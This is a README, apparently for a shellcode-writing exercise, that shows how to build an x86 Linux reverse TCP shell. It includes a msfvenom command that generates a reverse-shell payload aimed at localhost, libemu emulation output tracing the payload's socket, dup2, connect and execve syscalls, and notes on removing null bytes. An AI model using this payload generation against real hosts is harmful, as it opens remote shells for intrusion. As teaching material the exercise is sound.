 # Exercise 2


## Usage

```
python3 wrapper.py $IP $PORT
```

![Screenshot](images/wrapper/2.png)

If there are not input variables, the program asks for them:

![Screenshot](images/wrapper/1.png)


## Steps


### 1 - Get the syscalls with sctest

Get "sctest" result (also using *libemu.sh* script in **scripts/** folder):


```
msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1 | ./sctest -vvv -Ss 10000 -G reverseshell.dot
-------------------------------------

sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" reverseshell | tee libemu_res/libemu_res.txt
```

#### Result:

```
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 47138 (port=8888);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 16777343 (host=127.0.0.1);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

### 2 - Write every syscall in order

I will use the same values as the *sctest* output.

For thtat, first get the hexadecimal values for every syscall (for example, using *syscallhex.sh* script in **scripts/** folder):
```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | listen

printf "%x\n" 363

-------------------------------------

sh syscallhex.sh listen
```


## Deleting NOPs

First, there are NOPS:

![Screenshot](images/1.png)

One example is the use of [socket]:

![Screenshot](images/resd_problem/1.png)

Which creates these NOPS:

![Screenshot](images/resd_problem/2.png)

Using Sublime Text it is possible to replace them with "esi", a register which is not being used:

![Screenshot](images/resd_problem/3.png)

Then, it seems there are not more NOP values:

![Screenshot](images/resd_problem/4.png)

It is possible to check it using objdump (in this case through the script *clean.sh* from the **scripts/** folder) and grep:

![Screenshot](images/resd_problem/5.png)


## Adding text messages

![Screenshot](images/2.png)

![Screenshot](images/3.png)


## Argv tests
Get Argc value: 	
https://forum.nasm.us/index.php?topic=889.0
